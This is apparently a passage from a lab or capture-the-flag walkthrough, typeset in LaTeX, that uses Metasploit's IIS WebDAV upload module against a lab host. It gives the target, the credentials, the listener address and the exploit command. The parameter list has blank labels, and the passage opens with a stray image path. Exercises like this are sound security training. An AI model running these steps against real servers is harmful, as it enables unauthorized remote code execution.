 \begin{termbox}
service postgresql start && msfconsole

# Search for IIS WebDAV upload modules
search iis upload
# Selected: exploit/windows/iis/iis_webdav_upload_asp (index 1)

use 1
show options
\end{termbox}


\section*{Step 6 --- Configure the Module}

\begin{termbox}
set RHOST 10.2.28.172
set HttpUsername bob
set HttpPassword password_123321
set PATH /webdav/metasploit%
# LHOST was already set from earlier: 10.10.41.14
\end{termbox}

\textbf{Parameter rationale:}
\begin{itemize}
  \item {} --- target IP from the nmap phase
  \item {} --- credentials confirmed working with davtest
  \item {} --- upload path within the WebDAV directory; 
        generates a random filename
  \item {} --- my Kali VPN interface (must be VPN, not loopback)
\end{itemize}


\section*{Step 7 --- Execute the Exploit}

\begin{termbox}
exploit
\end{termbox}

